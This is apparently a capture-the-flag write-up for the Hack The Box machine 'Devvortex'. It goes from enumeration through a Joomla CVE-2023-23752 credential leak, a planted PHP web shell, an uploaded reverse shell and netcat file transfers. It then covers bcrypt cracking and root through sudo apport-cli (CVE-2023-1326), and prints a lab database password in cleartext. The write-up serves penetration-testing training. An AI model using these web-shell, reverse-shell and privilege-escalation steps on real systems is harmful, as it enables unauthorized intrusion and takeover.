# Devvortex



**Difficulty**: `Easy`

**OS**: `Linux`

**Category**: `Web Exploitation, CVE, Privilege Escalation, Enumeration`

Nmap scan:



```shell
nmap -sCV -A -p- -T4 --min-rate=1000 -oN scan 10.10.11.242
```

Edit `/etc/hosts` file. `sudo nano /etc/hosts`



Navigate to website:



Directory scan:



```shell
ffuf -u http://devvortex.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

Nothing useful.

Further investigation of the site by checking page source, monitoring requests and responses gives no information.

Next is to perform sub domain enumeration, i tried using gobuster but no luck so i used wfuzz instead.




```shell
wfuzz -c -u http://devvortex.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb" --hc 302
```
Found a sub domain of `dev`. Add it to `/etc/hosts` file.


Visit the sub domain.



Directory scan:


Found an administrator page.



Joomla admin login page.

Running a tool called `joomscan` we are only able to obtain the version.



Searching online led to discover an exploit `CVE-2023-23752` for the version


Using the exploit from github, follow the steps to install the requirements.



Then git clone the repository.

```shell
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
```

`cd` into the folder and run the exploit

```shell
ruby exploit.rb http://dev.devvortex.htb
```


We have 2 users and 1 password.

Login to the admin panel.



Now to find a way to gain a shell.

Checking online, we find out a CVE `CVE-2023-23752`


[Link](https://vulncheck.com/blog/joomla-for-rce)

We have 2 ways to gain a shell, modifying a template or installing a malicious joomla plugin. 


I tried the steps in the blog by first inserting a web shell payload in index.php but it doesn't work and indicates i only have read access.



Tried the second method by uploading a webshell but it also doesn't work also.



Note: you can access the templates and extensions by going to the settings tab:



So what i did was to create a new file in templates named shell.php and insert my webshell payload there.






Payload:

```php
<?php system($_GET['cmd']); ?>
```

Save the file.

Access it by navigating to `http://dev.devvortex.htb/templates/cassiopeia/shell.php?cmd=id`


And we have command execution


Now to gain a reverse shell.

First check our current directory to know where the payload will be delivered to.



Next we upload a php reverse shell. I will be using [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Change IP to you VPN IP.


I will rename the file to something simpler like `revshell.php`

I will be transferring the file using netcat.

Host the file:



```shell
nc -lvnp PORT < file
```

Download the file.



```
nc IP PORT > file
```

File transferred:



Now to execute the payload.

Start a netcat listener on the port specified in the revshell payload.



Execute payload by navigating to the file.



And we have a shell:



What this means is that we never even needed to file get a web shell, we could have created the revshell payload from the admin panel. Here is the file now present in the admin panel.



Although nothing bad in learning how to get web shells.

Next up is to stabilize the shell

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z (background shell)
stty raw -echo;fg
Press ENTER
```

We have another user named `logan` on the system.



There is a user flag in the home directory but we don't have permission to view it.



Next objective is to perform a horizontal privilege escalation to the user logan.

I transfer a [linpeas](https://linpeas.sh/) script to perform a privilege escalation enumeration 


Running the script shows there is a mysql service running on the target



We can try to login to the sql database using the credentials `lewis:P4ntherg0t1n5r3c0n##`









We have 2 users with their respective hash, let's crack it. Copy the hashes and place in a file.

The hash is a bcrypt hash, you can confirm from this [site](https://hashcat.net/wiki/doku.php?id=example_hashes)



Using hashcat to crack it.



```shell
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```



We have a password for the use logan. Now to login using ssh.

User flag obtained.


Root flag is next.

Checking for sudo privileges



Searching online, we seem to have a possible CVE `CVE-2023–1326` for privilege escalation.

Taking a look at this [website](https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/)



Verification:



Version is below `2.26.0` which means it is vulnerable.

Exploitation:

Select any option



```shell
sudo /usr/bin/apport-cli --file-bug
```

Next:


Press Enter and choose V



Now spawn a shell by typing `!/bin/bash`



Obtain the root flag;



The End.

